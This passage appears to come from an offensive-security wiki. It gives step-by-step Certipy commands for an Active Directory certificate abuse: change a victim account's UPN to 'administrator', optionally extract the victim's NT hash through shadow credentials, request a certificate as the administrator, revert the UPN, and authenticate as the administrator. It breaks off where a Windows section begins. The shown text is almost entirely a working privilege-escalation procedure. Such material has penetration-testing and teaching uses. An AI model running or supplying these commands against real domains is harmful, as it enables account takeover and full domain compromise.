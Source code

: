 ::: tabs

=== UNIX-like

**- Step 1: Read the UPN of the victim**
```bash
certipy account \
    -u "$USER@$DOMAIN" -p "$PASSWORD" \
    -dc-ip "$DC_IP" -user 'victim' \
    read
```

**Step 2: Update the victim account's UPN to the target administrator's `samAccountName`**
```bash
certipy account \
    -u "$USER@$DOMAIN" -p "$PASSWORD" \
    -dc-ip "$DC_IP" -upn 'administrator' \
    -user 'victim' update
```

**(If needed) Retrieve the credentials for the victim (NT Hash)**
```bash
certipy shadow \
    -u "$USER@$DOMAIN" -p "$PASSWORD" \
    -dc-ip "$DC_IP" -account 'victim' \
    auto
```

**Step 3: Request the certificate as the victim user from a suitable authentication template (e.g., "User")** 
```bash
certipy req \
    -u "victim@$DOMAIN" -hashes "$NT_HASH" \
    -ca DOMAIN-DC-CA -template User \
    -upn "administrator@$DOMAIN" -dc-ip "$DC_IP"
```

**Step 4: Revert the victim account's UPN**
```bash
certipy account \
    -u "$USER@$DOMAIN" -p "$PASSWORD" \
    -dc-ip "$DC_IP" -upn 'victim@$DOMAIN' \
    -user 'victim' update
```

**Step 5: Authenticate as the target account**
```bash
certipy auth \
    -dc-ip "$DC_IP" -pfx 'administrator.pfx' \
    -username 'administrator' -domain "$DOMAIN"
```

The certificate can then be used with [Pass-the-Certificate](https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate) to obtain a TGT and authenticate as the target.

=== Windows

**Step 1: Update the victim account's UPN to the target administrator's**
